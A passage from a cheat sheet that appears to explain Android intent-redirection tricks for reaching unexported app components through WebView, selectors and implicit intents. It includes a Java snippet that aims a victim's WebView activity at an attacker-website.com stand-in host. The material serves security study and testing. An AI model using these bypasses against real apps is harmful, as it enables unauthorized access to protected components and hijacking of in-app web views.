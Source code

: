 By itself, starting hidden components does not have much security impact and requires abuse of the functionality of the hidden components:
- [Oversecured: Access to app protected components: Escalation of attacks via Content Providers](https://blog.oversecured.com/Android-Access-to-app-protected-components/#escalation-of-attacks-via-content-providers)
- [Oversecured: Access to app protected components: Attacks on Android File Provider](https://blog.oversecured.com/Android-Access-to-app-protected-components/#attacks-on-android-file-provider)

### Access to arbitrary components via WebView

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/webview#access-to-arbitrary-components" %}

### Bypass protection

Developers can implement a filtering of received intents and [explicitly set a component to handle the intent](https://developer.android.com/reference/android/content/Intent#setComponent%28android.content.ComponentName%29) to `null`:

```java
intent.setComponent(null);
```

In this case, you can bypass the app's explicit intent protection by specifying an unexported component via a [selector](https://developer.android.com/reference/android/content/Intent#setSelector%28android.content.Intent%29):

```java
Intent intent = new Intent();
intent.setSelector(new Intent().setClassName("com.victim", "com.victim.AuthWebViewActivity"));
intent.putExtra("url", "http://attacker-website.com/");
```

The selector will be used when trying to find entities that can handle the Intent, instead of the main contents of the Intent.

However, developers can explicitly set a selector to `null`:

```java
intent.setComponent(null);
intent.setSelector(null);
```

Even so, you can create an implicit intent to match the `intent-filter` of some unexported activity:

```xml
<activity android:name=".AuthWebViewActivity" android:exported="false">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <data android:scheme="victim" android:host="secure_handler" />
    </intent-filter>
</activity>
```

## Insecure activity launches
